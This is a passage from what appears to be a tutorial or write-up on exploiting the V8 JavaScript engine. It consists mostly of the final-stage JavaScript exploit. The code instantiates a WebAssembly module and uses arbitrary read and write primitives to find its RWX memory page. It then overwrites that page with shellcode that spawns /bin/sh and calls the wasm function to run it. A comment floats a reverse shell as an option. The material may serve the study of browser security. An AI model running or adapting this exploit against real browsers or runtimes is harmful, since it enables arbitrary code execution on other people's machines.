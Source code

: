 After we have found the rwx section, we can write shellcode to that location.
Then, all we have to do is to call our WebAssembly function, and the shellcode
will be triggered.

Following is the new JavaScript code adding the final step of the exploit:
```js
console.log("[+] wasm stuff incoming");
var wasm_code = new Uint8Array([
		// fac wasm code
		0x00, 0x61, 0x73, 0x6d, 0x01, 0x00, 0x00, 0x00, 0x01, 0x06, 0x01, 0x60,
		0x01, 0x7f, 0x01, 0x7f, 0x03, 0x02, 0x01, 0x00, 0x07, 0x07, 0x01, 0x03,
		0x66, 0x61, 0x63, 0x00, 0x00, 0x0a, 0x19, 0x01, 0x17, 0x00, 0x20, 0x00,
		0x41, 0x00, 0x46, 0x04, 0x7f, 0x41, 0x01, 0x05, 0x20, 0x00, 0x20, 0x00,
		0x41, 0x01, 0x6b, 0x10, 0x00, 0x6c, 0x0b, 0x0b
]);

let wasm_mod = new WebAssembly.Instance(new WebAssembly.Module(wasm_code), {});
let f = wasm_mod.exports.fac;
//%DebugPrint(wasm_mod.exports);
// we can see that f is a JSFunction
//%DebugPrint(f);
let f_addr = addr_of(f);
console.log("[+] f_addr: " + f_addr.hex());

// Object -> HeapObject -> JSReceiver -> JSObject -> JSFunction
// first field in a heap object is a map
// 0x0		kMapOffset	(HeapObject)
// 0x8		kPropertiesOrHashOffset (JSReceiver)
// 0x10		kElementsOffset (JSObject)
// 0x18		kSharedFunctionInfoOffset
let kFunctionDataOffset = 0n;
let kSharedFunctionInfoOffset = 0x18n;

let shared_info = arb_read(f_addr - 1n + kSharedFunctionInfoOffset) - 1n;
console.log("[+] shared info: " + shared_info.hex());
// the 0x60 offset was found by trial and error using gdb
let rwx = arb_read(shared_info - 0x60n);
console.log("[+] rwx address: " + rwx.hex());

if ((rwx & 0xfffn) != 0) {
	throw "[-] address is not page-aligned!";
}

/* TODO: reverse shell instead? */
let shellcode = [
	0x9090909090909090n,
	0x91969dd1bb48c031n,
	0x53dbf748ff978cd0n,
	0xb05e545752995f54n,
	0xcccccccccc050f3bn
];

console.log("[+] writing shellcode");
for (var i = 0; i < shellcode.length; i++) {
	let a = rwx + (BigInt(i) * 8n);
	arb_write(a, shellcode[i]);
}
console.log("[+] done! shell incoming :))");
wasm_mod.exports.fac();
```
